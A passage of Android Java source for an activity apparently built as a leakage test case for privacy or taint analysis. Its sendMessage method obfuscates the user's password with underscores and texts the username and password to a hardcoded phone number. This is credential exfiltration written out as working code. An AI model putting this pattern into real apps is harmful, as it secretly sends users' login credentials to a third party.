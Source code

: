 ```java
                (EditText)findViewById(R.id.username);
        EditText passwordText =
                (EditText)findViewById(R.id.pwdString);
        String uname = usernameText.toString();
        String pwd = passwordText.toString();
        if(!uname.isEmpty() && !pwd.isEmpty())
            this.user = new User(uname, pwd);
    }
    //Callback method in xml file
    public void sendMessage(View view){
        if(user == null) return;
        Password pwd = user.getpwd();
        String pwdString = pwd.getPassword();
        String obfPwd = "";
        //must track primitives
        for(char c : pwdString.toCharArray())
            obfPwd += c + "_";
        String message = "User: " +
                user.getName() + " | PWD: " + obfPwd;
        SmsManager sms = SmsManager.getDefault();
        sms.sendTextMessage("+44 020 7321 0905",
                null, message, null, null);
    }

        @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_leakage_app);
    }

    @Override
    public boolean onCreateOptionsMenu(Menu menu) {
        // Inflate the menu; this adds items to the action bar if it is present.
        getMenuInflater().inflate(R.menu.menu_leakage_app, menu);
        return true;
    }

    @Override
    public boolean onOptionsItemSelected(MenuItem item) {
        // Handle action bar item clicks here. The action bar will
        // automatically handle clicks on the Home/Up button, so long
        // as you specify a parent activity in AndroidManifest.xml.
        int id = item.getItemId();

        //noinspection SimplifiableIfStatement
        if (id == R.id.action_settings) {
            return true;
        }

        return super.onOptionsItemSelected(item);
    }
}
```

